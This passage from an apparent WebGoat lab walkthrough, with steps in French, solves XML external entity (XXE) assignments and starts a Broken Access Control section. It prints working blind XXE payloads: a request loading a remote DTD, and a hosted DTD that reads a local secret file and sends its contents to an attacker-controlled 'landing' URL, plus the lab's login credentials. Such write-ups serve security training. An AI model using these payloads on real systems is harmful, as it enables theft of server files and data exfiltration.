 **Request Body**  
```xml
<?xml version="1.0"?>  
<!DOCTYPE root [  
<!ENTITY % remote SYSTEM "http://host:port/files/username/attack.dtd" >  
%remote;  
]>  
<comment>  
<text>test&ping;</text>  
</comment>  
```

7.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) This assignment is more complicated you need to upload the contents of a file to the attackers site (WebWolf in this case)  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) In this case you cannot combine external entities in combination with internal entities.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use parameter entities to perform the attack, see for example: https://www.acunetix.com/blog/articles/xml-external-entity-xxe-limitations/  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) An example DTD can be found here WebGoat/https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/example.dtd, include this DTD in the xml comment  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use for the comment, be aware to replace the url accordingly: <?xml version="1.0"?><!DOCTYPE comment \[<!ENTITY % remote SYSTEM "http://localhost:9090/files/test1234/test.dtd">%remote;\]><comment><text>test&send;</text></comment>

*   Envoyer le fichier **contents\_file.dtd** vers **WebWolf**.
*   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Sur WebGoat, poster un commentaire.
*   Repérer la requête vers `blind` dans l'onglet _Réseau_ et cliquer sur _Modifier et renvoyer_.
*   Modifier le corps de la requête comme spécifié ci-dessous.

**contents\_file.dtd**  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!ENTITY % all "<!ENTITY send SYSTEM 'http://host:port/landing?%file;' >" >%all;
```  
  
**Request Body**  
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE xxe [  
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-8.0.0.M25/XXE/secret.txt" >  
<!ENTITY % dtd SYSTEM "http://host:port/files/username/contents_file.dtd" >  
%dtd;]>  
<comment>  
<text>test&send;</text>  
</comment>
```

![XXE 7](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/xxe-7.png)

#### **(A5) Broken Access Control:**

##### Insecure Direct Object References

2.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Log in first. User Name is tom, password is cat.
